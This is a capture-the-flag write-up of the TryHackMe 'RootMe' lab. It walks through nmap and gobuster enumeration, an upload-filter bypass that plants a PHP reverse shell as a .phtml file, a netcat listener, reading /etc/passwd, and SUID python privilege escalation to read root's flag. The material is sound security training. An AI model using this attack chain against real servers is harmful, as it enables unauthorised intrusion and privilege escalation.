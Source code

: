 Written by: Jackie Mann
Alias: whiteshd0w
TryHackMe room: https://tryhackme.com/room/rrootme

Enumerated the box as normal. You can answer all the questions in task 2 from our enumeration.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 14:14 CDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating Ping Scan at 14:14
Scanning rootme.thm (10.10.202.81) [4 ports]
Completed Ping Scan at 14:14, 0.34s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:14
Scanning rootme.thm (10.10.202.81) [1000 ports]
Discovered open port 22/tcp on 10.10.202.81
Discovered open port 80/tcp on 10.10.202.81
Increasing send delay for 10.10.202.81 from 0 to 5 due to 36 out of 118 dropped probes since last increase.
Completed SYN Stealth Scan at 14:14, 14.88s elapsed (1000 total ports)
Initiating Service scan at 14:14
Scanning 2 services on rootme.thm (10.10.202.81)
Completed Service scan at 14:14, 6.43s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.202.81.
Initiating NSE at 14:14
Completed NSE at 14:14, 7.11s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.94s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Nmap scan report for rootme.thm (10.10.202.81)
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.25 seconds
           Raw packets sent: 1092 (48.024KB) | Rcvd: 1859 (214.384KB)
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://rootme.thm/
[+] Threads      : 10
[+] Wordlist     : directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,php,txt,jpg
[+] Timeout      : 10s
=====================================================
2020/09/14 13:52:58 Starting gobuster
=====================================================
/index.php (Status: 200)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)

```

I then went into the ```/panel``` directory of the website and found an upload form. I then uploaded a simple php reverse shell, but with the extension of .phtml as the site would not let me upload a .php file.

I issued a ```nc -lnvp 1234``` on my machine and clicked on the link to the reverse shell and was greeted with a shell as user www-data. ***NOTE: You can use any free port on your system, I just was lazy... :) ***

```
nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.202.81 35830
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:17:34 up 28 min,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We were placed in the / directory so we needed to know where home was for www-data

```
cat /etc/passwd
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

So, we change into /var/www and see the user.txt flag

```
cd /var/www
ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 Aug  4 17:54 .
drwxr-xr-x 14 root     root     4096 Aug  4 15:08 ..
-rw-------  1 www-data www-data  129 Aug  4 17:54 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4 17:19 html
-rw-r--r--  1 www-data www-data   21 Aug  4 17:30 user.txt
cat user.txt
THM{***_***_*_*****}
```
Now we need to figure out how to get the root.txt flag. Looking for the SUID binaries we see that our favorite scripting language has one set:
```
find / -user root -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python   <-----
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Using GTFObins we see a way that we can access files that we normally wouldn't be able to due to permission restrictions. 

```
python -c 'print(open("/root/root.txt").read())'  
THM{*********_**********}
```
We now have our root flag!